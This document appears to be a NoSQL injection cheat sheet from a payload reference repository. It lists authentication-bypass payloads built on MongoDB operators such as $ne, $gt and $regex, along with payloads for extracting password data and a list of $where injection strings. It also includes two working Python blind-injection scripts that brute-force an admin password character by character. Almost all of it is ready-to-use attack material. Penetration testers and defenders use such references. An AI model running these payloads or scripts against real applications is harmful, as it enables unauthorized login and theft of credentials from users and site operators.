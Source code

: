 ## NoSQL injection

## Tools

* [NoSQLmap - Automated NoSQL database enumeration and web application exploitation tool](https://github.com/codingo/NoSQLMap)

## Exploit

### Authentication Bypass

Basic authentication bypass using not equal ($ne) or greater ($gt)

```
in the request
- username[$ne]=toto&password[$ne]=toto
- login[$regex]=a.*&pass[$ne]=lol
- login[$gt]=admin&login[$lt]=test&pass[$ne]=1
- login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto
```

```json
The output is
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
```

### Extract length information

```json
username[$ne]=toto&password[$regex]=.{1}
username[$ne]=toto&password[$regex]=.{3}
```

### Extract data information

```json
in URL
username[$ne]=toto&password[$regex]=m.{2}
username[$ne]=toto&password[$regex]=md.{1}
username[$ne]=toto&password[$regex]=mdp

username[$ne]=toto&password[$regex]=m.*
username[$ne]=toto&password[$regex]=md.*

in JSON
{"username": {"$eq": "admin"}, "password": {"$regex": "^m" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^md" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^mdp" }}
```

### Extract data with "in"

```json
{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
```

### PHP Arbitrary Function Execution
```json
"user":{"$func": "var_dump"}
```

## Blind NoSQL

### POST

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://example.org/login"
headers={'content-type': 'application/json'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload='{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if 'OK' in r.text or r.status_code == 302:
                print("Found one more char : %s" % (password+c))
                password += c
```

### GET

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username='admin'
password=''
u='http://example.org/login'

while True:
  for c in string.printable:
    if c not in ['*','+','.','?','|', '#', '&', '$']:
      payload='?username=%s&password[$regex]=^%s' % (username, password + c)
      r = requests.get(u + payload)
      if 'Yeah' in r.text:
        print("Found one more char : %s" % (password+c))
        password += c
```

Another example using sleep to check vuln or not
```
'%2bsleep(1)%2b'
```

### MongoDB Payloads

```bash
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
```

## References

* [Hacktricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection)
* [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/NoSQL%20Injection/README.md)